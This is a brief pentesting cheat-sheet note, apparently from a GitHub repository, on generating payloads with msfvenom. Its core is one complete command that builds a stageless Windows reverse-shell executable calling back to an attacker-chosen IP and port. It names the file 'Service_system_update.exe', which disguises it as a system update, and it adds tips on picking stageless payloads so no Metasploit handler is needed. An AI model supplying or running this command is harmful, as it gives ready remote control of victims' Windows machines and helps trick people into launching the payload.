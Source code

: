 # msfvenom

> Windows reverse shell; defaults to x86 ie 32bit
```
msfvenom -p windows/shell_reverse_tcp lhost=<MY_IP> lport=9001 -f exe > Service_system_update.exe
```
- avoid the meterpreter payloads, they require metasploit handler to catch them
- note the _ separating the terms; this indicates STAGELESS payloads ie, no metasploit needed to catch
